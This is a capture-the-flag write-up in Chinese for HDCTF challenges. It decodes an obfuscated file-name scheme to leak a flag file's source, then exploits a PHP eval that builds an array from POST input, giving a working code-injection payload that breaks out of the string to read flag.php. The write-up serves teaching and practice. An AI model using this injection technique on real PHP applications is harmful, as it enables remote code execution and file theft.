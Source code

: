 可以看到，文件名加密对应的解密方式为 gzinflate(base64_decode(hex2bin($file)))

根据提示要获取 !HDCTF!.php，结合源码文件名只能是数字+字母，且把 HnuSec 替换为 !

得到 payload 

```php
<?php
echo bin2hex(base64_encode(gzdeflate('HnuSecHDCTFHnuSec.php')));
```

结果为 383867724455354e396e4278446e487a41445031436a494b41413d3d

访问

```
?img=383867724455354e396e4278446e487a41445031436a494b41413d3d
```

得到源码

```php
<?php DEFINE('FLAG','HDCTF{8eb106829505b59a67f3fe5557e777f4}');
```

# getshell

命令执行拼接

源码

```php
<?php
$str = $_POST['str'];

if(isset($str)){
    $sp = ",";
    $kv = "=";

    $arr = str_replace(array($kv,$sp),array('"=>"','","'),'array("'.$str.'")');
    
    eval("\$arr"." = $arr;");

}else{
    show_source(__FILE__);
}
```

将 POST 的 str 转化为数组。将 `=` 替换为 `"=>"`，将 , 替换为 `","`

POST str=1,2,3 在 eval 执行前，$arr 为 array("1","2","3")

在 3 处进行拼接与闭合，使用 `");echo 1;//` 得到结果 `array("1","2","");echo 1;//")` 成功注入 `echo 1`

最终 payload

```
str=1,2,3");readfile('flag.php');//
```
